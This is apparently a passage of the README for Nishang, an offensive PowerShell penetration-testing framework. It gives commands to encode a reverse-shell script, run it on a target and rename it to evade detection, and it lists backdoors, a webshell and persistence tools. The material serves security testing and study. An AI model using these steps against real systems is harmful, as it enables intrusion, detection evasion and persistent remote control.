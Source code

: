 Encode the script using Invoke-Encode from Nishang:

    PS C:\nishang> .\nishang\Utility\Invoke-Encode
    PS C:\nishang> Invoke-Encode -DataToEncode C:\nishang\Shells\Invoke-PowerShellTcp.ps1 -OutCommand

    Encoded data written to .\encoded.txt
    Encoded command written to .\encodedcommand.txt

From above, use the encoded script from encodedcommand.txt and run it on a target where commands could be executed (a remote shell, meterpreter native shell, a web shell etc.). Use it like below:

    C:\Users\target> powershell -e [encodedscript]

If the scripts still get detected, changing the function and parameter names and removing the help content will help.

In case Windows 10's AMSI is still blocking script execution, see this blog: http://www.labofapenetrationtester.com/2016/09/amsi.html

# Scripts
Nishang currently contains the following scripts and payloads.

## ActiveDirectory
[Set-DCShadowPermissions](https://github.com/samratashok/nishang/blob/master/ActiveDirectory/Set-DCShadowPermissions.ps1)
Modify AD objects to provide minimal permissions required for DCShadow.

## Antak - the Webshell
[Antak](https://github.com/samratashok/nishang/tree/master/Antak-WebShell)
Execute PowerShell scripts in memory, run commands, and download and upload files using this webshell.

## Backdoors
[HTTP-Backdoor](https://github.com/samratashok/nishang/blob/master/Backdoors/HTTP-Backdoor.ps1)
A backdoor which can receive instructions from third party websites and execute PowerShell scripts in memory.

[DNS_TXT_Pwnage](https://github.com/samratashok/nishang/blob/master/Backdoors/DNS_TXT_Pwnage.ps1)
A backdoor which can receive commands and PowerShell scripts from DNS TXT queries, execute them on a target, and be remotely controlled using the queries.

[Execute-OnTime](https://github.com/samratashok/nishang/blob/master/Backdoors/Execute-OnTime.ps1)
A backdoor which can execute PowerShell scripts at a given time on a target.

[Gupt-Backdoor](https://github.com/samratashok/nishang/blob/master/Backdoors/Gupt-Backdoor.ps1)
A backdoor which can receive commands and scripts from a WLAN SSID without connecting to it. 

[Add-ScrnSaveBackdoor](https://github.com/samratashok/nishang/blob/master/Backdoors/Add-ScrnSaveBackdoor.ps1)
A backdoor which can use Windows screen saver for remote command and script execution. 

[Invoke-ADSBackdoor](https://github.com/samratashok/nishang/blob/master/Backdoors/Invoke-ADSBackdoor.ps1)
A backdoor which can use alternate data streams and Windows Registry to achieve persistence. 
